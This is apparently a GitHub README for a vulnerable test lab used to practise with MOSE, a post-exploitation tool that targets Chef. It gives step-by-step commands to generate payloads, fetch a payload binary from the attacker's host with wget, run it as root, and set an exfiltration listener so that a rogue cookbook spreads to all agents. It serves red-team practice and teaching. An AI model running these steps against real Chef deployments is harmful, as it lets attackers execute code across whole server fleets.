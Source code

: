 # chef-test-lab
[![License](http://img.shields.io/:license-mit-blue.svg)](https://github.com/master-of-servers/chef-test-lab/blob/master/LICENSE)

Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

## Docker Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls a single agent, run the following command:
```
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working. You can track the progress with this command: `while true; do sleep 2; docker logs basic-chef-workstation; done`. You will know it's done when you see this:
```
id:       mysql_pw
password: TheM0stS3cr3T!!!
user:     mysql
```
3. Generate a payload with MOSE: `./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"` and be sure to answer `Y` when prompted.
4. Transfer the payload to the chef workstation container: `docker cp payloads/chef-linux basic-chef-workstation:/chef-linux` 
5. Run the payload: `docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"`
6. Wait for 30 minutes or exec into the agent and kick off the payload manually: `docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"`
7. Observe that a file has been created on the agent in `/tmp`: `docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"`

**Please note:**
The docker lab does not support transferring payloads to the target via the web server. You can however generate a payload with the `-f` parameter and transfer it via `docker cp`. 

To tear down the test environment, run the following command:
```
make destroy
```

## Credits
The chef server docker container is provided courtesy of this repo: https://github.com/c-buisson/chef-server
